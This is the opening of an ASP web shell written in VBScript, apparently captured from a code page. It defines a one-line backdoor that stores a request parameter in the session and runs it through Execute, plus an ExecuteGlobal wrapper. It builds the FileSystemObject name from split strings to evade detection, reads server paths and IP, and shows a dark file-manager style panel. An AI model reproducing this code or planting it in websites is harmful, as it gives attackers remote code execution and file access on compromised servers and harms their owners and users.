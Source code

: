 Response.Buffer =true
BodyColor="#000000"
FontColor="#b4a9a9"
LinkColor="#ffffff"
On Error Resume Next 
strBAD="If Request(""#"")<>"""" Then Session(""#"")=Request(""#"")"&VbNewLine
strBAD=strBAD&"If Session(""#"")<>"""" Then Execute(Session(""#""))"
Const DEfd=""
sub ShowErr()
 If Err Then
j"<br><a href='javascript:history.back()'><br> " & Err.Description & "</a><br>"
Err.Clear:Response.Flush
  End If
end sub
Sub j(str)
response.write(str)
End Sub
sub RaPath(s)
RaPath=ExecuteGlobal(s)
End sub
Function RePath(S)
RePath=Replace(S,"\","\\")
End Function
Function RRePath(S)
RRePath=Replace(S,"\\","\")
End Function
URL=Request.ServerVariables("URL")
ScriptPath=Server.MapPath(Request.ServerVariables("SCRIPT_NAME"))
ServerIP=Request.ServerVariables("LOCAL_ADDR")
Action=Request("Action")
RootPath=Server.MapPath(".")
WWWRoot=Server.MapPath("/")
CONST_FSO="Script"&"ing.Fil"&"eSyst"&"emObject"
FolderPath=Request("FolderPath")
u=request.servervariables("http_host")&url
domain=Request.ServerVariables("http_host")
FName=Request("FName")
cdx="<tr><td id=d width=95 onMouseOver=""this.style.backgroundColor='#696969'"" onMouseOut=""this.style.backgroundColor='#191919'"">":cxd="<font face='wingdings'>8</font>":ef="</a></td></tr>"


set fso=server.CreateObject(CONST_FSO)
set fsoX=server.CreateObject(CONST_FSO)
str1="http://"&Request.ServerVariables("SERVER_Name")& left(Request.ServerVariables("URL"),InstrRev(Request.ServerVariable("URL"),"/"))
BackUrl="<br><br><center><a href='javascript:history.back()'>返回</a></center>"



j "<html><meta http-equiv=""Content-Type"" content=""text/html; charset=gb2312""><title>"&mNametitle&"</title><style type=""text/css"">span.underline{text-decoration:underline;}span.orange{color:#B3D169;}span.project_type{text-align:right}span.grey{color:#666;}#links{list-style-type:none;padding:20px 0 0 0;padding-left:20px;}#linklist2  td{color:#FFF;background:#191919;}#linklist2 td:visited{color:#999;}#linklist2 td:hover{background:#B3D169;color:#191919;}body,tr,td{margin-top: 5px;background-color: #000000;color: #b4a9a9;font-size: 12px;SCROLLBAR-FACE-COLOR: #232323;scrollbar-arrow-color: #383839;scrollbar-highlight-color: #383839;scrollbar-3dlight-color: #dddddd;scrollbar-shadow-color: #232323}.sb{cursor: hand}input,select,textarea{border-top-width: 1px;font-weight: bold;border-left-width: 1px;font-size: 11px;border-left-color: #dddddd;background: #000000;border-bottom-width: 1px;border-bottom-color: #dddddd;color: #dddddd;border-top-color: #dddddd;font-family: verdana;border-right-width: 1px;border-right-color: #dddddd;}#d{background: #121212;padding-left: 5px;padding-right: 5px;font-color: #000}pre{font-size: 11px;font-family: verdana;color: #dddddd;}hr{color: #dddddd;background-color: #dddddd;height: 5px;}#x{font-family: verdana;font-size: 13px}a{color: #FFFFFF;text-decoration: none;}.am{color: #b4a9a9;font-size: 11px;}</style>"